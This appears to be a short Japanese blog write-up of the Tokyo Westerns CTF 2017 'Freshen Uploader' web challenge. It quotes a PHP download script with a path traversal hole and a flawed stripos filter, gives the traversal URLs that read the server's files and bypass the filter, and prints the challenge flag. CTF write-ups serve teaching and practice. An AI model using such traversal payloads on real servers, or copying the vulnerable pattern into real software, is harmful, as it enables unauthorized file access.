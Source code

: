 ```yaml
---
layout: post
alias: "/blog/2017/09/04/twctf-2017-freshen-uploader/"
date: "2017-09-04T16:40:28+09:00"
tags: [ "ctf", "writeup", "twctf", "web", "php" ]
---
```


# Tokyo Westerns CTF 3rd 2017: Freshen Uploader

動的scoringと基本点の結果によりWelcome問より得点が低いの好き。

## solution

### 1

<http://fup.chal.ctf.westerns.tokyo/download.php?f=../index.php> のようにすれば`index.php`, `download.php`が取れる。

`download.php`:

``` php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Contest-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```

### 2

`file_list.php`を読みたいが普通に読みにいくと弾かれる。

`stripos($filename, 'file_list') != false` してるが`stripos`が返すのはindexなので: <http://fup.chal.ctf.westerns.tokyo/download.php?f=file_list/../../file_list.php>
